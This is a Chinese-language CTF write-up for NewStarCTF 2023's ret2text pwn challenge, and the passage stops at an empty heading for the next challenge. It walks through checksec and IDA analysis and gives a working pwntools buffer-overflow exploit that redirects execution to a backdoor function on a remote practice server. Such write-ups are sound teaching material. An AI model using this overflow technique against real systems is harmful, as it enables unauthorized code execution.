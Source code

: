 # NewStarCTF2023-Week1-Pwn


# ret2text

首先checksec

![image-20231003110256058](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003110256058.png)

发现程序开启GOT完全只读和栈不可执行，但是没有开启随机化和Canary。

扔进ida64看下：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003110942529.png)

发现read处存在溢出（buff只有32字节但是读了256字节）。

同时发现后门函数backdoor：

![image-20231003111225107](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003111225107.png)

于是就是一道非常标准的ret2text，这里通过buf的溢出劫持RIP指向backdoor进行执行即可。

根据ida的显示，buf距离栈底20h的距离，64位程序栈单元是8字节，backdoor的后门地址是0x4011fb。同时，由于跳过了call的步骤直接跳转到backdoor地址执行，可能破坏原有的堆栈平衡，这里将backdoor的ret地址（0x40122D）在执行前丢进栈，保证堆栈平衡。

所以payload如下：

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

#r = process('./ret2text')
r = remote('node4.buuoj.cn',29883)

offset = 0x20
backdoor = 0x4011fb

payload =  b'a' * offset + b'b' * 8 + p64(0x40122D) + p64(backdoor)

r.sendafter('magic',payload)
r.interactive()

```

然后远程连接程序即可：

![image-20231003112352853](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231003112352853.png)

# ezshellcode
